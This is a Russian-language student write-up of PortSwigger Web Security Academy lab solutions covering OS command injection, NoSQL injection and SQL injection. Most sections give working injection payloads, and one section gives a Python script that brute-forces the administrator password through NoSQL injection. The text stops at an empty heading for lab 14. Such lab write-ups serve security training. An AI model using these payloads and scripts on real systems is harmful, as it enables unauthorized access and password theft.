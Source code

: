 # Отчет по решению OS injection

## 1. Lab: OS command injection, simple case

Пошарился по лабе со включенным burp proxy, нашел post /product/stock, заинджектил в пост запрос `productId=2&storeId=1;whoami`

## 2. Lab: Blind OS command injection with time delays

В форме feedback можно поинжектить в поле email

` csrf=CvglT8HVqqhEjwmMgG9Z00uYphRnukWL&name=alaska&email=qwe%40ru.ru;sleep%2010;&subject=alaska&message=alaska`

## 3. Lab: Blind OS command injection with output redirection

Инжект находится в том же месте, где раньше, вывод можно посмотреть по пути /image?filename=who.txt

# Отчет по решению NoSQL

## 1. Lab: Detecting NoSQL injection

Инжект производится такой строкой
```
https://0a8b009a035541b580d0a832008f0051.web-security-academy.net/filter?category=Gifts%27||1||%27
```


## 2. Lab: Exploiting NoSQL operator injection to bypass authentication
```
{"username":{
"$regex": "admin.*"},"password":{
"$ne":""}
}
```


## 3. Lab: Exploiting NoSQL injection to extract data

Нашел ручку /user/lookup, написал переборный скрипт

```
import subprocess

for i in range(30):

    result = subprocess.check_output(f"curl \"https://0a29004103d5c93c81b761b500610098.web-security-academy.net/user/lookup?user=administrator'+%26%26+this.password.length=='{i}\" -b \"session=gGfRWGzVNbFPkaRpdmbdDb6mU7GE1vyy\"",
                                         shell=True, stderr=subprocess.DEVNULL).decode()
    resfind = result.find("Could not find user")
    if resfind == -1:
        pass_len=i


print(pass_len)
alphabet="abcdefghijklmnopqrstuvwxyz"
pass_us = ""
for i in range(pass_len):
    for j in alphabet:
        result = subprocess.check_output(f"curl \"https://0a29004103d5c93c81b761b500610098.web-security-academy.net/user/lookup?user=administrator'+%26%26+this.password%5b{i}%5d+%3d%3d+'{j}\" -b \"session=gGfRWGzVNbFPkaRpdmbdDb6mU7GE1vyy\"",
                                         shell=True, stderr=subprocess.DEVNULL).decode()

        resfind = result.find("Could not find user")
        if resfind == -1:
            pass_us+=j
            print(pass_us)
            continue

```

# Отчет по решению SQL injection

## 1. Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

Нашел, что в url параметрах в запросе при поиске пятисотит при вставке '1=1--

```
https://0aac002e042225ac814c524600eb0023.web-security-academy.net/filter?category=Clothing%2c+shoes+and+accessories%271=1--
```

Добавил туда OR и решил

## 2. Lab: SQL injection vulnerability allowing login bypass

В пароль вставил peter'+OR+1=1--

## 3. Lab: SQL injection attack, querying the database type and version on Oracle

Поигрался со строкой url и информацией из шпоры 

```
/filter?category=Clothing%2c+shoes+and+accessories'+UNION+SELECT+banner,+null+FROM+v$version--
```

## 4. Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

То же что и в прошлом пункте

```
GET /filter?category=Clothing%2c+shoes+and+accessories%27+UNION+SELECT+@@version,+null#
```

## 5. Lab: SQL injection attack, listing the database contents on non-Oracle databases

При помощи information_schema узнал название таблиц и столбцов, а далее

```
/filter?category=Food+%26+Drink'+UNION+SELECT+username_zlsgld,+password_pdgcrz+FROM+users_inrtyt-- 
```

## 6. Lab: SQL injection attack, listing the database contents on Oracle

Тут уже было all_tab_columns и all_tables

```
Pets'+UNION+SELECT+USERNAME_QPCQFG,+PASSWORD_SUWKHT+FROM+USERS_OUTBIY--
```

## 7. Lab: SQL injection UNION attack, determining the number of columns returned by the query

Написал переборный скрипт (lab7.py) и нашел, что нужное количество колонн в запросе - 3

```
https://0a65000d0335c09a818b5cbb001900b1.web-security-academy.net/filter?category=%27+UNION+SELECT+NULL,NULL,NULL--
```

## 8. Lab: SQL injection UNION attack, finding a column containing text

По аналогии с прошлым заданием оформил скрипт (lab_8.py), в котором сначала перебором нахожу сколько надо вставить, а затем поочередно каждый заменяю.

```
https://0ac8005a04f8e01c81be480e007d00bf.web-security-academy.net/filter?category=Pets%27+UNION+SELECT+NULL,%27thfFL2%27,NULL--
```

## 9. Lab: SQL injection UNION attack, retrieving data from other tables

Просто и понятно сделать query и все

```
https://0aa9009e0396832a8130482600990072.web-security-academy.net/filter?category=Accessories%27UNION%20SELECT%20username,password%20FROM%20users%20WHERE%20username=%27administrator%27--
```

## 10. Lab: SQL injection UNION attack, retrieving multiple values in a single column

Тут секрет был в том, что первое поле - не могло вернуть строку, потому надо было во второе поле обьединить юзера и пароль

```
https://0a660061049321058110c1f000fa0057.web-security-academy.net/filter?category=Accessories%27+UNION+SELECT+NULL,username||%27~%27||password+FROM+users--
```

## 11. Lab: Blind SQL injection with conditional responses

Ужасно долго пытался писать скрипт для перебора на питоне, написал, лежит в lab_11.py

Условие выглядело так:
```
cookies['TrackingId'] = f"ry6OMfqiyJL4qIfd'+AND+(SELECT+SUBSTRING(password,{i+1},1)+FROM+users+WHERE+username='administrator')='{al}"
```

## 12. Lab: Blind SQL injection with conditional errors

Тут примерно так же, но отслеживать надо ошибки 500 при делении на ноль если кейс выполняется

```
'||(SELECT+CASE+WHEN+SUBSTR(password,{i+1},1)='{al}'+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username='administrator')||'
```

## 13. Lab: Visible error-based SQL injection

Так как мы видим ошибки, то можно попытаться покастовать строку в число :)

```
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

## 14. Lab: Blind SQL injection with time delays

